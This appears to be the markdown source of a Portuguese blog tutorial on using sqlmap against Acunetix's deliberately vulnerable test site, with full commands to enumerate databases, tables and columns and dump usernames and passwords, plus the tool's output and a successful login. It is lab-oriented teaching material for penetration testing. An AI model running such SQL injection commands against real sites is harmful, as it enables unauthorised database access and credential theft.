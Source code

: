 ```yaml
---
layout: post
title: "Analisando vulnerabilidades com sqlmap"
data: Fevereiro de 2016
img_background: /img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/syringe-code2.jpg
description: 'Vamos analisar uma pequena falha encontrada em um banco de dado Mysql, com o sqlmap'
tags: [Segurança, Dicas]
categories:
- Segurança
---
```



## SQL Injection

Hoje vou falar um pouco sobre uma ótima ferramenta para fazer `pentest`, que é muito utilizada para fazer `SQL injection`, vou falar sobre o `sqlmap` que tem como foco buscar vulnerabilidades no `SQLi` que podem trazer uma grande dor de cabeça, vulnerabilidades que geralmente são causadas por falhas no desenvolvimento, e as vezes até por um funcionário descontente ou desmotivado.

### Mas o que é sqlmap

O `sqlmap` é uma ferramenta desenvolvida em `python` de código aberto, que tem como foco analisar vulnerabilidades no sql de websites ou serviços, possibilitando que você faça diversas coisas, devido à variedade de opções que ele te oferece, desde informações do formulário até tabelas de todo o banco de dados, muito popular para extrair nome de usuários e senhas.

O que vamos abordar aqui é tenta encontrar alguma vulnerabilidade no `SQL`, e ver se conseguimos ganhar acesso, para fazer nosso teste vou usar o site da Acunetix [http://testphp.vulnweb.com/](http://testphp.vulnweb.com/), que foi disponibilizado justamente para fazer pentest.

### Instalando o sqlmap

Sua instalação não é muito difícil, é como quaisquer outras aplicações que não vem como padrão em sua distribuição. Acesse o site oficial [sqlmap.org](http://sqlmap.org/), faça download de sua referência seja `.zip` ou `tar.gz`. Extraia os arquivos para uma pasta, acesse a pasta e execute `./sqlmap.py` ou `python sqlmap.py`

### Help

{% highlight bash %}
./sqlmap.py --help | less
{% endhighlight %}

Sempre bom conhecer a ferramenta antes de utilizarmos ela, tente ler algumas das muitas opções que o `sqlmap` oferece, assim você pode juntar algumas opções que podem se torna úteis.

### Analisando possíveis vulnerabilidades

Coloque um som legal aí, e vamos lá. Primeiro vamos conhecer o nosso site alvo, então acesse [http://testphp.vulnweb.com/](http://testphp.vulnweb.com/). É possível ver na imagem abaixo que temos uma área de login, o que geralmente acontece nessas áreas, se você colocar aspas simples ('') no login e na senha, já indica uma vulnerabilidade, mas cheguei a fazer esse teste e não tive resultado nenhum, então quer dizer que não temos vulnerabilidade nessa página de login, ou que eu não consegui encontrar. :(

![screenshot](/img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/screenshot04.png)

Mas não podemos criar pânico, vamos dá uma olhada melhor, ali do lado esquerdo temos um menu na vertical onde é possível acessar uma página de categorias. Ótimo quer dizer que temos um banco de dados ali também.

![screenshot](/img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/screenshot02.png)

Essas categorias podem ser exploradas, então vou selecionar a segunda categoria e vamos ver o que ela tem para nos oferecer, porque é onde está o conteúdo relacionado ao banco de dados.

![screenshot](/img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/screenshot03.png)

Essa categoria que selecionei tem apenas um resultado relacionado a ela, mas não tem problema o nosso foco aqui é encontrar vulnerabilidades e não comprar. Agora vamos analisar o `URL` da página.

{% highlight bash %}
http://testphp.vulnweb.com/listproducts.php?cat=2
{% endhighlight %}

Legal, vamos pôr um ponto de interrogação `?` ali no final da nossa `URL`, quem sabe temos algum erro no sql.

{% highlight bash %}
http://testphp.vulnweb.com/listproducts.php?cat=2?
{% endhighlight %}

Muito bom encontramos o que precisávamos, um pequeno erro no sql, e já descobrimos qual é o sql que ele utiliza o `Mysql`.

![screenshot](/img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/screenshot05.png)

Já encontramos a vulnerabilidade que precisávamos então vamos para o `sqlmap`, que será uma peça fundamental, onde iremos tentar puxar mais informações desse banco de dados.

{% highlight bash %}
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=2 --dbms=mysql --dbs
{% endhighlight %}

O `-u` indica que estamos usando uma url já o `--dbms=mysql` indica para que seja feita busca no mysql, que é o banco de dados utilizado pelo site, assim a busca fica muito mais rápida, se não utilizarmos essa opção ele vai demorar um pouco mais, porque vai tentar com todos os bancos de dados e por fim o `-dbs` está pedindo para que liste os bancos de dados.

Após executar, o resultado foi:

{% highlight bash %}
[00:19:41] [INFO] testing MySQL
[00:19:41] [INFO] confirming MySQL
[00:19:41] [INFO] the back-end DBMS is MySQL
web application technology: Nginx, PHP 5.3.10
back-end DBMS: MySQL >= 5.0.0
[00:19:41] [INFO] fetching database names
available databases [2]:
[*] acuart
[*] information_schema

[00:19:41] [INFO] fetched data logged to text files under '/home/nglauzer/.sqlmap/output/testphp.vulnweb.com'
{% endhighlight %}

Até aqui tranquilo, acabamos de descobrir mais um pouco, agora sabemos que ele tem um banco de dados chamado `acuart` e o outro `information_schema`. Vamos analisar esse `acuart`

{% highlight bash %}
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=2 --dbms=mysql --dbs -D acuart --tables
{% endhighlight %}

A opção `-D` mostra qual o banco de dados que vamos analisar que seria o `acuart` que é a nossa segunda opção, já o `--tables`, vai listar todas as tabelas existentes no banco de dados que acabamos de informar.

Nosso resultado foi:

{% highlight bash %}
[00:28:26] [INFO] fetching tables for database: 'acuart'
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+

[00:28:26] [INFO] fetched data logged to text files under '/home/nglauzer/.sqlmap/output/testphp.vulnweb.com'
{% endhighlight %}

Olha ali temos uma tabela chamada `users`, legal que é o nosso foco aqui, descobrir usuário e senha então vamos pegar mais informações desse banco de dados da tabela `users`

{% highlight bash %}
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=2 --dbms=mysql --dbs -D acuart -T users --columns
{% endhighlight %}

O `-T`, estou informando que desejo informações da tabela já o `users` diz qual é a nossa tabela, e o `--columns`, informa que desejo as colunas dessa tabela.

{% highlight bash %}
[00:33:01] [INFO] fetching columns for table 'users' in database 'acuart'
Database: acuart
Table: users
[8 columns]
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| address | mediumtext   |
| cart    | varchar(100) |
| cc      | varchar(100) |
| email   | varchar(100) |
| name    | varchar(100) |
| pass    | varchar(100) |
| phone   | varchar(100) |
| uname   | varchar(100) |
+---------+--------------+

[00:33:01] [INFO] fetched data logged to text files under '/home/nglauzer/.sqlmap/output/testphp.vulnweb.com'
{% endhighlight %}

Estamos quase chegando na nossa reta final, já temos ali as colunas `uname` e `pass`, vamos extrair ela e ver o que temos.

{% highlight bash %}
./sqlmap.py -u http://testphp.vulnweb.com/listproducts.php?cat=2 --dbms=mysql --dbs -D acuart -T users -C uname,pass,name,email --dump
{% endhighlight %}

No `-C` estou informando que desejo as colunas já `uname,pass,name,email`, informando quais são essas colunas que eu desejo, e o `--dump`, extrai as informações dessas colunas.

Resultado:

{% highlight bash %}
[00:41:04] [INFO] fetching entries of column(s) 'email, name, pass, uname' for table 'users' in database 'acuart'
[00:41:04] [INFO] analyzing table dump for possible password hashes
Database: acuart
Table: users
[1 entry]
+-------+------+------------+-----------------+
| uname | pass | name       | email           |
+-------+------+------------+-----------------+
| test  | test | John Smith | email@email.com |
+-------+------+------------+-----------------+

[00:41:04] [INFO] table 'acuart.users' dumped to CSV file '/home/nglauzer/.sqlmap/output/testphp.vulnweb.com/dump/acuart/users.csv'
[00:41:04] [INFO] fetched data logged to text files under '/home/nglauzer/.sqlmap/output/testphp.vulnweb.com
{% endhighlight %}

Bom, se você chegou até aqui parabéns, está na hora de ver se essa parada aqui é de verdade mesmo e ter certeza que não estou inventando nada, rs. Vamos para o site naquela página de login, tentar usar o a senha `test` e o login `teste`, e ver se o nome e e-mail bate com as informações.

Página de login:

![screenshot](/img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/screenshot06.png)


Página de acesso:

![screenshot](/img/posts/2016-04-19-analisando-vulnerabilidades-com-sqlmap/screenshot07.png)

### Conclusão

Como foi possível ver, esse realmente era o usuário e senha para acessar a página, e os dados bateram com as informações que obtivemos na hora de pegar as informações das colunas. Agora é só verificar outras vulnerabilidades possíveis no site da Acunetix, e explorar elas, sempre tem um novo jeito.

### Referências

[sqlinjection](http://www.sqlinjection.net/)

[sqlmap.org/](http://sqlmap.org/)

-----
Viu algum erro ou gostaria de adicionar alguma sugestão a essa matéria? Comente.
